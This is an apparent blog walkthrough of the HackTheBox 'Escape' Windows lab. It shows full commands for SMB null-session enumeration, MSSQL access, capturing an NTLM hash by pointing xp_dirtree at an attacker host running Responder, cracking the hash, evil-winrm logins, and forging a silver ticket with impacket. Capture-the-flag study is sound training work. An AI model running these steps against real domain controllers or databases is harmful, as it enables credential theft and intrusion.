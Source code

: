 ```yaml
---
title: Escape @ HackTheBox - Complete Walkthrough
date: 2025-04-25 13:00:00 
last_modified_at: 2025-04-25 13:00:00
categories: [HTB Machines,Windows Machines]
tags: [hackthebox,escape machine,penetration testing,cybersecurity,walkthrough,windows,active directory]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post3/Escape.png
  alt: "Escape Machine - HackTheBox Windows Challenge"
author: Ahmed BAHYA
excerpt: "Complete walkthrough of the Escape machine on HackTheBox. Learn Windows penetration testing techniques, privilege escalation, and Active Directory exploitation in this cybersecurity challenge."
description: "Step-by-step walkthrough of the Escape machine on HackTheBox. Master Windows penetration testing, privilege escalation techniques, and Active Directory exploitation in this comprehensive cybersecurity challenge guide."
keywords: [hackthebox, escape machine, windows, penetration testing, cybersecurity, walkthrough, privilege escalation, active directory, exploitation]
canonical_url: https://b2hu.me/posts/Escape-HTB-Walkthrough
---
```


## Table of Contents
- [Enumeration](#enumeration)
- [Initial Access](#initial-access)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---
**Hello** This is a very simple walkthrough for the windows machine Escape (medium). In this walkthrough we'll practice AD enumeration and Exploitation, without further ado let's get into it.
## Enumeration
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
the scan showes multiple windows AD specific ports open inidicating the machine is a Domain Controller, with a domain name of sequel.htb
after adding the file to /etc/hosts i started enumerarting the services (ldap,smb,etc) and trying to collect information.
After that i found that a Null session was possible in the SMB, so l'ets see whats there :
```shell
smbclient -L //sequel.htb 
```
this command listed the possible share drives, and among them was folder called Public.
```shell
smbclient -U "" //sequel.htb/Public
```
i found a .pdf and i downloaded it using **get**.
Interestingly enough, inside the PDF file, we can find credentials to access the MSSQL instance that we noticed during our initial enumeration, and for this we'll use **impacket-msssqlclient**
```shell
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```
## Foothold
after gaining access i tried many techniques like enabling xp_cmdshell but sadly nothing works, and therefor i tried to force the mssql instance to authenticate to my machine to capture the NTLM hash of the service account responder. 
First let's set up responder :
```shell
sudo responder -I tun0 -v
```
Then, we ask from SQL to list files on our machine using a UNC (Universal Naming Convention) path.
```shell
EXEC MASTER.sys.xp_dirtree '\\10.10.14.7\b2hu', 1, 1
```
back to responder and it seems that he caught the ntlm hash of the user account **sql_svc**, now lets crack it using hashcat (the hash format is NetNTLMv2 and the code is 5600)
```shell
hashcat -m 5600 hash.txt /usr/share/wordlist/rockyou.txt
```
the password seems to be **REGGIE1234ronnie**.
now let's try to authenticate as the user sql_svc over WinRM. We will use evil-winrm.
```shell
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```
## Lateral Movement
we accessed thee sql_svc but there's no **user.txt** file a quick look at the C:\Users folder showed a user **Ryan.Cooper** which indicates that this user might be the target user, while searching for any lead to move to the ryan user i found a log file inside the sqlserver folder, it appears that this user failed to login to the sql instance using this password : **"NuclearMosquito3"**, and this password would most likely be his account's password, let's test it :
```shell
evil-winrm -i sequel.htb -u Ryan.Cooper -p NuclearMosquito3
```
it worked, and now we can retrieve the **user.txt** falg
### PrivEsc
in this step i'll try to forge a ticket for the admin user to access the mssql database and execute xp_cmdshell, this attack verctor is known as **silver ticket**, since we've got the creds for the sql_svc account lets try to get th sid of the domin
```shell
PS C:\Users\Ryan.Cooper\Documents> Get-LocalUser -Name $env:USERNAME | Select sid

SID
---
S-1-5-21-4078382237-1492182817-2568127209-1105
```
the domain SID is all but the last part, next we need the NTLM hash of the svc_sql account, using this <a href=https://codebeautify.org/ntlm-hash-generator>online tool</a> to create it :
```text
1443EC19DA4DAC4FFC953BCA1B57B4CF
```
The spn parameter is needed to produce a valid ticket but we can place anything we want since it's not set
to begin with.
```text
b2hu/DC.SEQUEL.HTB
```
Now, we can craft a ticket for the MSSQL service.
```shell
impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF
-domain-sid S-1-5-21-
4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn
nonexistent/DC.SEQUEL.HTB Administrator
```
Now, we export our ticket and authenticate to the service using Kerberos authentication.
```shell
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k dc.sequel.htb
```
Now, we can use the following queries to read the user.txt as well as the root.txt 
```shell
SELECT * FROM OPENROWSET(BULK N'C:\users\ryan.cooper\desktop\user.txt', SINGLE_CLOB) AS
Contents
SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB)
AS Contents
```